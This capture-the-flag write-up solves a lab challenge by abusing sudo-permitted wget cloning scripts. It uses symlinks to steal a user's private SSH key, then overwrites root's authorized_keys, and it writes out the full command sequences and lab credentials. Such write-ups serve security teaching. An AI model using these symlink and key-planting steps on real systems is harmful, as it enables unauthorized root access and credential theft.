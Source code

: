# Starlink

### Category

System

### Description

Here is your chance to take a look at one of starlinks internal systems. This server hosts the tool used by Elon Musks engineers to clone various websites. We've heard both the v1 and the v2 are flawed. Can you find and exploit the problems ?

The base credentials are:
```
user1:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

**Part 1**

When loggin in, we notice the script [clone1.py](clone1.py).

`sudo -l` reveals that we can run the script as user2.
```bash
$ sudo -l
Matching Defaults entries for user1 on c7e3b2581fd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on c7e3b2581fd9:
    (user2) NOPASSWD: /home/user1/clone1.py
```

The script makes a call to wget with some parameters and the user provided URL.
It clones a website, zips it, and moves it to the folder `/home/zip`.

```python
p1 = subprocess.Popen(['wget', '-nc', '-r', '-l', 'inf', '--no-remove-listing', '-q', '-P', '/tmp', url])
```
Let's check the used options.
```
-nc: The no clobber option prevents the download of a file if it already exists.
-r: The recursive option causes wget to download the contents of a directory.
-l: The level option causes wget to download the contents of a directory up to the specified level. (infinit in our case)
--no-remove-listing: The no-remove-listing option prevents wget from removing the directory listing for a directory that is being downloaded.
-q: The quiet option prevents wget from printing progress information to the terminal.
-P: The output directory option specifies the directory where the downloaded files are stored. The directory is /tmp in our case.
```

The challenges name is a hint in itself. We have to exploit symlinks.

The no-clobber option prevents us to exploit symlinks to overwrite files.

But the fact that we are zipping the folder as user2, allows us to exploit symlinks to read any file that user2 has access to.

The machines are not connected to the internet, so there is no point in trying to clone an online website. But we can run a local http server (using python for example) and clone it.

```
python3 -m http.server 80
```

We don't have a choice to run it on port 80, since we are only allowed to use letters and `.` in the hostname.

The hostname will be localhost. Let's setup the exploit.

```
$ mkdir /tmp/localhost
$ ln -s /home/user2/.ssh/id_rsa /tmp/localhost/id_rsa
$ sudo -u user2 ./clone1.py http://localhost
```

Since the zipping is done by user2, it will resolve the symlink to the real file. We can recover the private ssh key in `/home/zip/localhost.zip`.

**Part 2**

Let's connect as user2.
```
$ chmod 600 id_rsa
$ ssh -i id_rsa user2@localhost
```

The [clone2.py](clone2.py) is similar to the firt one, but there is no zipping, and no no-clobbering option.
```python
p1 = subprocess.Popen(['wget', '-r', '-l', 'inf', '--no-remove-listing', '-P', DIR, url])
```

We can run it as root.
```bash
$ sudo -l
Matching Defaults entries for user2 on c7e3b2581fd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on c7e3b2581fd9:
    (root) NOPASSWD: /home/user2/clone2.py
```

Because of the lack of zipping action, we won't be able to read a file. But we will be able to write any file because we can overwrite files (abscence of no-clobber option), by overwriting a symlink's destination.

Here is how to escalate to root:

```
$ mkdir /home/zip/localhost
$ ln -s /root/.ssh/authorized_keys /home/zip/localhost/my_key
$ mkdir site
$ cat ~/.ssh/id_rsa.pub > site/my_key
$ python3 -m http.server 80 &
$ sudo ./clone2.py http://localhost
$ ssh root@localhost
```

- We create like before the folder where the site will be cloned, and the symlink to the authorized_keys file.

- We create an empty folder that will host the "site".

- We put our public key inside the `my_key` file, which will be cloned to the `/home/zip/localhost` folder, and will overwrite the file pointed by the symlink wearing the same name.

- We run the local http server, and run the cloning process.

After all of these manipulations, we can just ssh as root.

### Flag

```
Hero{SymL1nk5_4r3_tr1cky}
```
